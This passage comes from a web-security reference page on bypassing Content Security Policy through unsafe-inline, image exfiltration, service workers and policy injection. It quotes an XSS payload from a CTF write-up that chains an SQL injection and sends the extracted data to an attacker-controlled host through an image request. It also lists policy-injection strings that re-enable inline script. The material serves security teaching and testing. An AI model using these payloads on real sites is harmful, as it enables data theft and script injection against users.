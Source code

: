 ### Bypass CSP with dangling markup

Read [how here](../dangling-markup-html-scriptless-injection/index.html).

### 'unsafe-inline'; img-src \*; via XSS

```
default-src 'self' 'unsafe-inline'; img-src *;
```

`'unsafe-inline'` means that you can execute any script inside the code (XSS can execute code) and `img-src *` means that you can use in the webpage any image from any resource.

You can bypass this CSP by exfiltrating the data via images (in this occasion the XSS abuses a CSRF where a page accessible by the bot contains an SQLi, and extract the flag via an image):

```javascript
<script>
  fetch('http://x-oracle-v0.nn9ed.ka0labs.org/admin/search/x%27%20union%20select%20flag%20from%20challenge%23').then(_=>_.text()).then(_=>new
  Image().src='http://PLAYER_SERVER/?'+_)
</script>
```

From: [https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle](https://github.com/ka0labs/ctf-writeups/tree/master/2019/nn9ed/x-oracle)

You could also abuse this configuration to **load javascript code inserted inside an image**. If for example, the page allows loading images from Twitter. You could **craft** an **special image**, **upload** it to Twitter and abuse the "**unsafe-inline**" to **execute** a JS code (as a regular XSS) that will **load** the **image**, **extract** the **JS** from it and **execute** **it**: [https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/](https://www.secjuice.com/hiding-javascript-in-png-csp-bypass/)

### With Service Workers

Service workers **`importScripts`** function isn't limited by CSP:

{{#ref}}
../xss-cross-site-scripting/abusing-service-workers.md
{{#endref}}

### Policy Injection

**Research:** [**https://portswigger.net/research/bypassing-csp-with-policy-injection**](https://portswigger.net/research/bypassing-csp-with-policy-injection)

#### Chrome

If a **parameter** sent by you is being **pasted inside** the **declaration** of the **policy,** then you could **alter** the **policy** in some way that makes **it useless**. You could **allow script 'unsafe-inline'** with any of these bypasses:

```bash
script-src-elem *; script-src-attr *
script-src-elem 'unsafe-inline'; script-src-attr 'unsafe-inline'
```
